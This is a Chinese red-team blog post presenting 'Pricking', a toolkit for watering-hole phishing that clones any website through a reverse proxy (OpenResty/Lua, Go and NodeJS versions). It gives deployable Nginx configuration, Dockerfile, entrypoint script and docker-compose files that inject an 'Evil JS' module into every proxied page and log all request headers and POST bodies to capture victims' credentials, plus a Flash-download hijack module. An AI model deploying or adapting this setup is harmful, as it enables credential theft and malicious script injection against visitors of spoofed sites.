







红队技巧：基于反向代理的水坑攻击
在红队行动中，一般使用邮件钓鱼会携带诱饵附件，但常被邮件网关拦截，如果想要去收集更多的有效信息，可以在邮件中埋入水坑链接。而埋入的水坑的制作，对于红队来说又有些繁琐，因此本文记录一下我实现自动化三种解决方案。
完整项目代码：
- Go语言版本：Pricking
- NodeJS版本：Pricking-node
0x00 前言
在红队行动中，一般使用邮件钓鱼会携带诱饵附件，但常被邮件网关拦截，如果想要去收集更多的有效信息，可以在邮件中埋入水坑链接。而埋入的水坑的制作，对于红队来说又有些繁琐，因此本文记录一下我实现自动化这块的工作。
0x01 实现目标
先明确一下实现目标：
- 支持快速部署
- 完美克隆任意网站
- 可扩展的模块（受害者执行）
- 收集所有凭证（除了Cookie还有POST数据）
0x02 Nginx实现 - 快速部署与完美克隆
互联网上有许多网页克隆的工具，大多都是将网页的前端文件（html、js、图片等）下载到本地，这个方式即使自动化也很难与网站真实后端无缝对接。于是我采用Nginx的反向代理功能来实现完美克隆，让我的Web服务器充当一个真实的客户端。但Nginx本身默认情况下，没办法做到很灵活的逻辑操作，因此需要采用OpenResty内置的Lua脚本Block。
OpenResty® 是一个基于 Nginx 与 Lua 的高性能 Web 平台，其内部集成了大量精良的 Lua 库、第三方模块以及大多数的依赖项。用于方便地搭建能够处理超高并发、扩展性极高的动态 Web 应用、Web 服务和动态网关。
根据它的官方文档和开源仓库我找到了Docker环境，使用Docker镜像就能解决快速部署的问题了。
首先拉取镜像到本地，方便后续的操作：
docker pull openresty/openresty:alpine
OpenResty配置文件
OpenResty Docker环境共有两块需要关注的配置文件：
- /etc/nginx/conf.d
- /usr/local/openresty/nginx/conf/nginx.conf
其中主配置文件是最精简的，我根据OpenResty的文档优化了一个，后续Dockerfile的编写也是替换的主配置文件。
OpenResty - Lua Ngx API
若想要在Nginx配置中执行Lua代码，需要遵循Lua Ngx API，文档中提供了*_by_lua，*_by_lua_block和*_by_lua_file来引入Lua代码。
nginx.conf简单实例：
worker_processes 1;
error_log logs/error.log error; # 日志级别
events {
worker_connections 1024;
}
http {
server {
listen 80;
location / {
content_by_lua_block {
ngx.say("Hello,Rvn0xsy");
}
}
}
}
当OpenResty环境以nginx.conf作为配置文件启动的话，访问网站会输出Hello,Rvn0xsy。
Lua Ngx API - Block
《OpenResty 最佳实践》中提供了一个流程图：

根据这个流程图，可以将Lua代码放入不同的流程中对数据进行修改、删除、添加等。
如上面的Hello,Rvn0xsy例子，就是通过content_by_lua_block这个环节对响应内容进行修改。
本文用到的Block有：
- header_filter_by_lua_block 用于修改响应头
- body_filter_by_lua_block 用于修改响应内容，注入JS
- log_by_lua_block 用于记录请求日志或凭证
Nginx 反向代理配置
Nginx反向代理配置起来非常简单。
location /some/path/ {
proxy_pass http://www.example.com/link/;
}
location用于做URI匹配，当访问到/some/path/这个路径时，Nginx就代表客户端去访问http://www.example.com/link/，整个过程对客户端是完全透明的。
根据这个实例，可以直接写下第一部分，反向代理的配置了：
location / {
proxy_pass http://www.example.com/link/;
}
访问根目录就等同于访问http://www.example.com/link/。
这里可能会产生一个问题，如果目标Web服务器对Host进行了判断，那么反向代理可能不会成功，因此需要将完美克隆的目标Host进行设置。
worker_processes 1;
error_log logs/error.log error; # 日志级别
events {
worker_connections 1024;
}
http {
server {
listen 80;
server_name example-1.com;
location / {
proxy_pass http://www.example.com/link/;
proxt_set_header Host www.example.com;
proxt_set_header Referer http://www.example.com/link/;
}
}
}
至此，就能完美克隆目标网站了。
注入模块化的Evil JS
使用body_filter_by_lua_block可以对网站内容进行修改，利用好这个功能，就能将JS文件引入到页面中。
header_filter_by_lua_block { ngx.header.content_length = nil}
body_filter_by_lua_block{
local chunk, eof = ngx.arg[1], ngx.arg[2]
local buffered = ngx.ctx.buffered
if not buffered then
buffered = {}
ngx.ctx.buffered = buffered
end
if chunk ~= "" then
buffered[#buffered + 1] = chunk
ngx.arg[1] = nil
end
if eof then
local whole = table.concat(buffered)
ngx.ctx.buffered = nil
whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
ngx.arg[1] = whole
end
}
在修改网页内容之前，需要通过header_filter_by_lua_block将Content-Length进行清空，因为修改后，Content-Length的大小一定是改变的。
使用ES6+标准将JS模块化
<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>
其中static.js就是引入的Evil JS，添加了type='module'是为了启用ES6+标准。

为了不和源站的目录冲突，7276df76835ed2272cc0e59f55e49902其实是一个虚拟的目录，通过location映射即可。
location ^~ /7276df76835ed2272cc0e59f55e49902/ {
alias /tmp/pricking/static/;
}
关于Import的说明可以看这篇文章。
使用模块化功能可以让这个项目吸收更多关于浏览器丰富的操作，就像XSS平台那样。
Nginx - 记录日志或凭证
由于log_by_lua_block是最后一个流程，可以把一些数据进行收集，写入日志文件。
...
http {
....
log_format logeverything '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
server {
set $request_headers "";
set $current_time "";
....
location / {
...
log_by_lua_block {
ngx.var.current_time = ngx.localtime()
ngx.var.request_headers = ngx.req.raw_header()
}
}
access_log /tmp/pricking/access.log logeverything;
}
}
ngx.localtime()和ngx.req.raw_header()是调用了Lua Ngx API。
Nginx - 最终配置
worker_processes 1;
events {
worker_connections 1024;
}
http {
include mime.types;
default_type application/octet-stream;
sendfile on;
log_format logeverything '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
server {
set $request_headers "";
set $current_time "";
server_name proxy.payloads.online;
listen 80;
location ^~ /7276df76835ed2272cc0e59f55e49902/ {
alias /tmp/pricking/static/;
}
location / {
proxy_pass http://payloads.online;
proxy_set_header Host payloads.online;
header_filter_by_lua_block { ngx.header.content_length = nil}
body_filter_by_lua_block{
local chunk, eof = ngx.arg[1], ngx.arg[2]
local buffered = ngx.ctx.buffered
if not buffered then
buffered = {}
ngx.ctx.buffered = buffered
end
if chunk ~= "" then
buffered[#buffered + 1] = chunk
ngx.arg[1] = nil
end
if eof then
local whole = table.concat(buffered)
ngx.ctx.buffered = nil
whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
ngx.arg[1] = whole
end
}
log_by_lua_block {
ngx.var.current_time = ngx.localtime()
ngx.var.request_headers = ngx.req.raw_header()
}
}
access_log /tmp/pricking/access.log logeverything;
}
}
Nginx - Dockerfile编写
Dockerfile :
FROM openresty/openresty:alpine
ENV PROXY_PASS_HOST www.baidu-proxy.com # 自己的域名
ENV PROXY_SOURCE_HOST www.baidu.com # 要克隆的域名
ENV NGINX_LISTEN_PORT 80 # 监听端口，不建议改动
ENV EVIL_JS_URI b026324c6904b2a9cb4b88d6d61c81d1 # JS虚拟目录名称
WORKDIR /tmp/
COPY nginx.conf /usr/local/openresty/nginx/conf/nginx.conf
COPY docker-entrypoint.sh /tmp/docker-entrypoint.sh
RUN mkdir -p /tmp/pricking/static/ && chmod +x /tmp/docker-entrypoint.sh
ENTRYPOINT ["/tmp/docker-entrypoint.sh"]
通过设置环境变量的值，就能完美克隆任意网站。
docker-entrypoint.sh :
#!/bin/sh
echo "[+] Replace evil js URI..."
sed -e 's/7276df76835ed2272cc0e59f55e49902/b026324c6904b2a9cb4b88d6d61c81d1/' \
-e "18s/proxy.payloads.online/$PROXY_PASS_HOST/g" \
-e "27s/payloads.online/$PROXY_SOURCE_HOST/g" \
-e "28s/payloads.online/$PROXY_SOURCE_HOST/g" \
-e "19s/80/$NGINX_LISTEN_PORT/g" /usr/local/openresty/nginx/conf/nginx.conf > /usr/local/openresty/nginx/conf/nginx.conf.new
mv /usr/local/openresty/nginx/conf/nginx.conf.new /usr/local/openresty/nginx/conf/nginx.conf
echo "[+] Replace server name : $PROXY_PASS_HOST"
echo "[+] Listen PORT : $NGINX_LISTEN_PORT"
echo "[+] Proxy Pass Host : $PROXY_SOURCE_HOST"
echo "[+] Evil js URL : $PROXY_PASS_HOST/$EVIL_JS_URI/static.js"
/usr/local/openresty/nginx/sbin/nginx -g "daemon off;" -c /usr/local/openresty/nginx/conf/nginx.conf
Nginx - docker-compose
我将镜像上传到了Docker镜像源中，可以通过如下docker-compose.yml创建实例：
version: '3'
services:
nginx:
image: rvn0xsy/pricking:v1
ports:
- "80:80"
volumes:
- /tmp/pricking:/tmp/pricking
environment:
PROXY_PASS_HOST: proxy.payloads.online
PROXY_SOURCE_HOST: payloads.online
NGINX_LISTEN_PORT: 80
EVIL_JS_URI: b026324c6904b2a9cb4b88d6d61c81d1

日志：

0x03 Golang实现 - 快速部署与完美克隆
通过Google搜索“Golang http reverse proxy”发现，官方在标准库中已经包含了实现反向代理的代码：ReverseProxy
示例代码：Simple and Powerful ReverseProxy in Go
创建一个简单的反向代理服务器只需要少量的代码，而且还不需要处理HTTPS证书问题：
package main
import (
"log"
"net/http"
"net/http/httputil"
"net/url"
)
// NewProxy takes target host and creates a reverse proxy
func NewProxy(targetHost string) (*httputil.ReverseProxy, error) {
url, err := url.Parse(targetHost)
if err != nil {
return nil, err
}
return httputil.NewSingleHostReverseProxy(url), nil
}
// ProxyRequestHandler handles the http request using proxy
func ProxyRequestHandler(proxy *httputil.ReverseProxy) func(http.ResponseWriter, *http.Request) {
return func(w http.ResponseWriter, r *http.Request) {
proxy.ServeHTTP(w, r)
}
}
func main() {
// initialize a reverse proxy and pass the actual backend server url here
proxy, err := NewProxy("http://my-api-server.com")
if err != nil {
panic(err)
}
// handle all requests to your server using the proxy
http.HandleFunc("/", ProxyRequestHandler(proxy))
log.Fatal(http.ListenAndServe(":8080", nil))
}
我记得以前国内在Google被墙了后，出现了许多Google镜像网站，其实背后的原理也都是反向代理技术，只不过实现的语言不一样罢了。
修改响应内容
func NewSingleHostReverseProxy(target *url.URL) *ReverseProxy
httputil.NewSingleHostReverseProxy用来初始化一个结构体代理对象，结构体内有以下几个属性：
type ReverseProxy struct {
Director func(*http.Request)
Transport http.RoundTripper
FlushInterval time.Duration
ErrorLog *log.Logger
BufferPool BufferPool
ModifyResponse func(*http.Response) error
ErrorHandler func(http.ResponseWriter, *http.Request, error)
}
其中ModifyResponse是用来修改Response的，Response中包含了响应头和响应内容。
Pricking的实现方式：
proxy := httputil.NewSingleHostReverseProxy(remote)
proxy.ModifyResponse = handler.modifyResponse
handler.modifyResponse中主要进行对响应内容的处理，比如注入js、修改响应头等操作。
modifyResponse传入的是http.Response对象，如果要修改除Header以外的数据，需要对Response.body进行读取，修改完毕后，再重新赋值Response.body：
func modifyResponse(w *http.Response)error{
respBodyByte, err := ioutil.ReadAll(w.Body)
// .....
// 这里对Response进行修改
// .....
w.ContentLength = int64(len(respBodyByte))
w.Header.Set("Content-Length", strconv.Itoa(len(respBodyByte)))
w.Body = ioutil.NopCloser(bytes.NewReader(respBodyByte))
return nil
}
Pricking 使用
有Go语言环境 - 本地编译：
$ git clone https://github.com/Rvn0xsy/Pricking
$ cd Pricking
$ make
有Go语言环境 - Go Install：
$ go install -v github.com/Rvn0xsy/Pricking/cmd/pricking@latest
环境：
- 反向代理服务器：MacOS 64Bit 192.168.117.1
- 目标域名：https://payloads.online
配置文件：
filter_type:
- "text/html" # 仅针对网页内容进行注入
exclude_file: # 静态文件的数据包不进行注入
- ".jpg"
- ".css"
- ".png"
- ".js"
- ".ico"
- ".svg"
- ".gif"
- ".jpeg"
- ".woff"
- ".tff"
static_dir: "./static" # Pricking Suite 目录
pricking_prefix_url: "/pricking_static_files" # 静态目录名，不能与目标网站冲突
listen_address: "192.168.117.1:9999" # 监听地址:端口
inject_body: "<script src='/pricking_static_files/static.js' type='module'></script>" # 注入代码
Pricking是支持HTTPS反向代理的，我的博客刚好是HTTPS加密的，所以能把HTTPS转换为HTTP。

启动Pricking，确保配置文件、Static在当前目录：
$ ./pricking -url https://payloads.online
2021/12/24 14:03:33 Loading config ./config.yaml

代理效果：

查看页面底部：

代码已经成功注入，static.js中的代码就是用于引用Pricking Js Suite的内容进行加载执行。

0x04 NodeJS实现 - 快速部署与完美克隆
Pricking-node 实现效果与Pricking类似，但我感觉JS好像更加简洁、方便，因此对照http-proxy-middleware模块编写了一个反向代理脚本。
const { createProxyMiddleware, responseInterceptor } = require('http-proxy-middleware');
const proxy = createProxyMiddleware({
/**
* IMPORTANT: avoid res.end being called automatically
**/
selfHandleResponse: true, // res.end() will be called internally by responseInterceptor()
/**
* Intercept response and replace 'Hello' with 'Goodbye'
**/
onProxyRes: responseInterceptor(async (responseBuffer, proxyRes, req, res) => {
const response = responseBuffer.toString('utf8'); // convert buffer to string
return response.replace('Hello', 'Goodbye'); // manipulate response and return the result
}),
});
通过onProxyRes属性可以定义针对Response的修改动作。
Pricking-node 使用
$ npm install -g express
$ npm install -g http-proxy-middleware
$ git clone https://github.com/Rvn0xsy/Pricking-node.git
$ cd Pricking-node
$ node proxy.js
可以通过环境变量改变默认值：
| 环境变量 | 默认值 |
|---|---|
| HOST | https://payloads.online/ |
| PORT | 3000 |
| PUBLIC_URI | /public |
| PUBLIC_DIR | pricking-js-suite |
劫持Flash下载
劫持Flash的代码已经提交到pricking-js-suite，在这里我演示一下：

将flash模块启用：
$ vim pricking-js-suite/static.js

访问: http://localhost:3000 点击立即下载将会触发js代码。

flash模块的代码如下：
console.log("Loaded flash.cn Module ...");
export function Download() {
var loadLink = document.getElementsByClassName("loadLink");
loadLink[0].classList.remove("disable")
loadLink[0].addEventListener('click',function(){
alert("Hello Pricking!!");
},false)
}
参考
- https://github.com/openresty/docker-openresty
- https://openresty-reference.readthedocs.io/en/latest/Lua_Nginx_API/
- https://docs.nginx.com/nginx/admin-guide/web-server/reverse-proxy/
- https://www.freecodecamp.org/news/learn-modern-javascript/
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/import
- https://blog.joshsoftware.com/2021/05/25/simple-and-powerful-reverseproxy-in-go/
- https://www.npmjs.com/package/http-proxy-middleware
网络安全爱好者、安全工具开发者
现阶段在进行红队相关的工作，我的博客会记录一些我的学习过程和部分安全技术研究成果。